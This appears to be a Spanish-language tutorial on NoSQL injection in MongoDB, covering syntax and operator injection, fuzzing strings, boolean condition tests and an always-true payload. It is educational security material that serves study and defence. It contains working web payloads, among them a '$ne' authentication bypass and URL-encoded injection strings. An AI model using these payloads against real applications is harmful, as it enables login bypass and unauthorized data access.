 # NoSQL Injection

## 🔎 ¿Qué es una NoSQL Injection?

Una **NoSQL Injection** es una vulnerabilidad de seguridad que permite a un atacante manipular las consultas realizadas por una aplicación hacia una base de datos NoSQL. A diferencia de las bases de datos relacionales SQL, las NoSQL (como MongoDB, CouchDB, Firebase, etc.) utilizan distintos lenguajes de consulta, estructuras de datos flexibles y menos restricciones relacionales.

Esta vulnerabilidad puede permitir a un atacante:

* Bypassear mecanismos de autenticación o autorización.
* Leer, modificar o eliminar datos arbitrarios.
* Ejecutar código en el servidor (en algunos entornos).
* Causar denegación de servicio.

---

## 🧰 ¿Cómo funciona?

Las aplicaciones modernas muchas veces reciben datos del cliente (formularios, URLs, JSON) que luego utilizan para construir consultas hacia la base de datos. Si estos datos no son validados correctamente, un atacante podría inyectar fragmentos de código malicioso que se ejecuten como parte de la consulta NoSQL.

---

## ✍️ Tipos de NoSQL Injection

### 1. Inyección de Sintaxis (Syntax Injection)

El atacante puede modificar la sintaxis de la consulta con caracteres especiales, logrando alterar su comportamiento.

Ejemplo:

```js
// Consulta en MongoDB:
db.products.find({ category: userInput })
```

Si `userInput` es:

```js
"fizzy'||'1'=='1"
```

Entonces la consulta queda:

```js
{ category: 'fizzy'||'1'=='1' }
```

Esto puede devolver todos los productos sin importar su categoría.

### 2. Inyección de Operadores (Operator Injection)

El atacante utiliza operadores de la base NoSQL como `$ne`, `$gt`, `$regex`, `$where`, etc., para alterar la consulta sin romper la sintaxis.

Ejemplo:

```json
{
  "username": { "$ne": null },
  "password": { "$ne": null }
}
```

Esto puede saltarse una autenticación básica si no se sanitizan los campos.

---

## 🔢 MongoDB como objetivo principal

MongoDB es una de las bases de datos NoSQL más utilizadas y es muy propensa a este tipo de vulnerabilidades cuando se trabaja con datos JSON desde el cliente.

### Consulta común:

```js
// URL:
https://inseguro.com/product/lookup?category=fizzy

// Query que ejecuta:
this.category == 'fizzy'
```

---

## 🔍 Detectando NoSQL Injection (fuzzing)

### Prueba con cadenas especiales:

Probar si el input del parámetro `category` permite alterar la sintaxis:

```
category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Versión decodificada:

```js
"`{
;$Foo}
$Foo \xYZ\0
```

Cambios inesperados en la respuesta pueden indicar procesamiento no seguro del input.

### Prueba con comillas simples:

```
category='
```

Consulta generada:

```
this.category == '''
```

Si se rompe la consulta, podría indicar un punto de inyección.

---

## 🔠 Confirmando comportamiento condicional

Una técnica común es inyectar condiciones booleanas:

* Falsa:

```
fizzy' && 0 && 'x
```

* Verdadera:

```
fizzy' && 1 && 'x
```

Si la aplicación responde distinto para ambas, entonces el input modifica la lógica del servidor.

---

## 🔫 Anulando condiciones

Una vez que se sabe que la inyección funciona, se puede intentar inyectar una condición siempre verdadera:

Payload:

```
fizzy'||'1'=='1
```

URL codificada:

```
category=fizzy%27%7c%7c%271%27%3d%3d%271
```

Consulta resultante:

```
this.category == 'fizzy' || '1'=='1'
```

---

